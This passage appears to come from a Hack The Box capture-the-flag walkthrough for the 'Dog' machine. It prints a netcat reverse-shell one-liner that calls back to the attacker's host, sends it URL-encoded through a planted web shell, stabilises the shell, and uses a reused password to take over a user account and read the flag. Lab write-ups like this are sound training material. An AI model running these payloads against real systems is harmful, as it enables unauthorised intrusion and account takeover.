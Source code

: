 Now we try to get a reverse shell with the following payload URL-encoded

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
```

`URL-Encoded` 

```bash
http://dog.htb/modules/shell/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.14.217%204444%20%3E%2Ftmp%2Ff
```

After executing that URL on the browser we get reverse shell as `www-data`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.217] from (UNKNOWN) [10.129.145.3] 50270
sh: 0: can't access tty; job control turned off
$ python --version
sh: 1: python: not found
$ python3 --version
Python 3.8.10
$ python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@dog:/var/www/html/modules/shell$ export TERM=xterm
export TERM=xterm
www-data@dog:/var/www/html/modules/shell$ stty rows 40 columns 120
```

After making a stable shell, checking home directory reveals two users: `jobert` and `johncusack`

```bash
www-data@dog:/var/www/html/modules/shell$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root       root       4096 Aug 15  2024 .
drwxr-xr-x 19 root       root       4096 Feb  7  2025 ..
drwxr-xr-x  4 jobert     jobert     4096 Feb  7  2025 jobert
drwxr-xr-x  3 johncusack johncusack 4096 Feb  7  2025 johncusack
```

Testing both users with previously found password we see it is has been reused for `johncusack` user as we get a successful login.
Under this user we found `user.txt` file:

```bash
www-data@dog:/var/www/html/modules/shell$ su johncusack
su johncusack
Password: <REDACTED>

johncusack@dog:/var/www/html/modules/shell$ whoami
whoami
johncusack
johncusack@dog:/var/www/html/modules/shell$ 
johncusack@dog:/var/www/html/modules/shell$ cd /home  
cd /home
johncusack@dog:/home$ cd johncusack
cd johncusack
johncusack@dog:~$ cat user.txt
cat user.txt
97<REDACTED>
```

